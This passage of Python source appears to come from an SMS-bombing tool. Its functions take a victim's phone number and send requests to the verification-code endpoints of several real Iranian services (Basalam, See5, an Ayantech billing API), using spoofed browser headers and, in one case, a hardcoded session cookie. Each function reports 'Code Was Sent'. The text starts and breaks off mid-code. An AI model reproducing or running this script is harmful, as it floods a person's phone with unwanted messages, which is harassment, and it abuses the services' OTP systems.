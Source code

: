     "query": "mutation verificationCodeRequest($mobile: MobileScalar!) { mobileVerificationCodeRequest(mobile: $mobile) { success } }"
}
    baU = 'https://api.basalam.com/user'
    baH = {'accept': 'application/json, text/plain, */*',
'accept-encoding': 'gzip, deflate, br',
'accept-language': 'en-US,en;q=0.9',
'authorization': 'Bearer undefined',
'content-length': '168',
'content-type': 'application/json;charset=UTF-8',
'origin': 'https://basalam.com',
'referer': 'https://basalam.com/',
'user-agent': 'Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.45 Safari/537.36 OPR/82.0.4227.23',
'x-client-info': '{"name":"web.public"}',
'x-creation-tags': '{"app":"web","client":"customer","os":"linux","device":"desktop","uri":"/accounts","fullPath":"/accounts","utms":"organic","landing_url":"basalam.com%2Faccounts","tag":[null]}'}
    try:
        ok = post(timeout=5, url=baU, headers=baH, json=baJ)
        if ok.status_code == 200:
            print(f'{g}(BaSalam) {w}Code Was Sent')
            return True
    except:
        pass
def see5(phone):
    seD = {'mobile': '0'+phone.split('+98')[1],
'action': 'sendsms'}
    seU = 'https://crm.see5.net/api_ajax/sendotp.php'
    seH = {'accept': '*/*',
'accept-encoding': 'gzip, deflate, br',
'accept-language': 'en-US,en;q=0.9',
'content-length': '33',
'content-type': 'application/x-www-form-urlencoded; charset=UTF-8',
'cookie': '_ga=GA1.2.1824452401.1639326535; _gid=GA1.2.438992536.1639326535; analytics_campaign={%22source%22:%22google%22%2C%22medium%22:%22cpc%22%2C%22campaign%22:%22adwords%22%2C%22content%22:%22adwords%22}; crisp-client%2Fsession%2Fc55c0d24-98fe-419a-862f-0b31e955fd59=session_812ec81d-13c1-4a69-a494-ad54e1f290ef; __utma=55084201.1824452401.1639326535.1639326540.1639326540.1; __utmc=55084201; __utmz=55084201.1639326540.1.1.utmcsr=Ads|utmgclid=EAIaIQobChMIsfOridfe9AIV5o5oCR2zJQjCEAMYAiAAEgLT8fD_BwE|utmccn=Exact-shopsaz|utmcmd=cpc|utmctr=(not%20provided); _gac_UA-62787234-1=1.1639326540.EAIaIQobChMIsfOridfe9AIV5o5oCR2zJQjCEAMYAiAAEgLT8fD_BwE; __utmt=1; __utmb=55084201.3.10.1639326540; WHMCSkYBsAa1NDZ2k=6ba6de855ce426e25ea6bf402d1dc09c',
'origin': 'https://crm.see5.net',
'referer': 'https://crm.see5.net/clientarea.php',
'user-agent': 'Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.45 Safari/537.36 OPR/82.0.4227.23',
'x-requested-with': 'XMLHttpRequest'}
    ok = post(timeout=5, url=seU, headers=seH, data=seD).text
    try:
        if ok == 'send_sms':
            print(f'{g}(See5) {w}Code Was Sent')
            return True
    except:
        pass
def ghabzino(phone):
    ghJ = {
    "Parameters": {
        "ApplicationType": "Web",
        "ApplicationUniqueToken": None,
        "ApplicationVersion": "1.0.0",
        "MobileNumber": '0'+phone.split('+98')[1]
    }
}
    ghU = 'https://application2.billingsystem.ayantech.ir/WebServices/Core.svc/requestActivationCode'
    ghH = {'accept': 'application/json, text/plain, */*',